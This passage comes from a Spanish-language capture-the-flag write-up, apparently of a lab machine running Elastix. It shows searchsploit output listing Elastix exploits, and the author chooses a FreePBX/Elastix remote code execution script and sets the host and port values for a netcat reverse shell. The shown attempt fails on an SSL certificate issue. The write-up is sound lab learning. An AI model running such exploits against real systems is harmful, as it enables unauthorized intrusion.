 
<h2 id="Exploit">Buscando y Probando un Exploit</h2>

```bash
searchsploit elastix      
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                              | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                     | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Hay varios que me gustaría probar como el **LFI, XSS y PHP Code Injection**, pero creo que sería mejor si probamos con el **RCE**. Vamos a analizar y después los demás.

<h2 id="PruebaExp">Probando Exploit: Elastix 2.2.0 - Remote Code Execution</h2>

```bash
searchsploit -x php/webapps/18650.py     
  Exploit: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/18650
     Path: /usr/share/exploitdb/exploits/php/webapps/18650.py
    Codes: OSVDB-80544, CVE-2012-4869
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (418)
```
Parece que este Exploit nos mete directamente usando la URL para inyectar un Payload que será una **Reverse Shell**. Esto ya es automatizado, solamente tendríamos que poner la IP de la máquina, nuestra IP y el puerto al que nos conectara usando una **netcat**.

Vamos a probarlo:
```bash
rhost="10.10.10.7"
lhost="Tu_IP"
lport=443
```
Cambia esos datos y ejecuta el script con **Python2** y...nada, no me conecto a nada y no salió nada en la página. Supongo que es por el problema que tuve antes para poder entrar a la página, pues el **certificado SSL** parece ya no servir, quizá si lo modificamos puede que apruebe el Exploit y sirva, vamos a investigar un poco como podemos modificarlo.
